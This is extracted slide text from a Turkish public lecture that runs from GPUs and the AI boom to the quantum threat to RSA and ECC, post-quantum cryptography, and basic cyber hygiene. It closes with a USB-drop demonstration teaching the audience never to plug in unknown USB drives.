Oyun için yapılan grafik kartları (NVIDIA, AMD) milyonlarca paralel işlem yapabildiği için yapay zeka eğitiminin motoru oldu.
AI Patlaması
ChatGPT'den deepfake'lere, otonom araçlardan tıbbi tanıya — her şey AI'a evriliyor. Veri × hesaplama gücü = sıçrama.
Bir Sıçrama Daha
Bilim insanları öyle bir teknoloji üzerinde çalışıyor ki — klasik bilgisayarın ötesinde bir hesaplama paradigması. İşin rengi yine değişecek.
Peki bu "yeni hesaplama paradigması" tam olarak ne? Sıradaki slaytta...
Yarın:
Kuantum
çağı geliyor.
Bugünün tüm internet şifreleri (RSA, ECC), kuantum bilgisayar önünde birkaç saatte çözülebilir.
yıl · klasik bilgisayar
Shor algoritması
Cevap: Post-Kuantum Kriptografi (PQC) — yeni şifreler şu an geliştiriliyor. Siz, bu yarışın mühendisleri olabilirsiniz.
Korunma
Stratejisi
Paranoyak olma — ama bilinçli ol.
10 Adımlık Siber Hijyen
"Bunu bulan
var mı
aranızda?"
Bu salona kasten birkaç tane bıraktım.
Hiçbiri bana ait değilmiş gibi davrandım.
Bulan biri varsa — sahneye gelir misin?
Ders: Hiç tanımadığın bir USB'yi asla bilgisayarına takma. Ne kadar tanıdık görünürse görünsün.
Teşekkürler!
Sorularınız?
1954'ten kuantuma uzanan 70 yıllık bir yolculuk. Şimdi sıra sizde.
Dr. Öğr. Üyesi
Ramazan Özgür Doğan